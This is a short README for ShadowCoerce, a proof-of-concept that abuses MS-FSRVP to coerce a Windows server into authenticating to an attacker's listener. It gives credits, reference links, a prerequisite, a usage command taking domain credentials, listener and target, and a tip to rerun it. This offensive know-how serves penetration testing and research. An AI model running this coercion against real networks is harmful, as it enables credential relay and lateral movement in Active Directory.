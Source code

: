 # ShadowCoerce
MS-FSRVP coercion abuse PoC

Credits: Gilles LIONEL (a.k.a. Topotam)
Source: https://twitter.com/topotam77/status/1475701014204461056

Explanation: https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-fsrvp

MS Docs: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

"File Server VSS Agent Service" needs to be enabled on the target server.

```shell
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![example](.assets/example.png)

*In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. **TL;DR: run the command twice if it doesn't work.***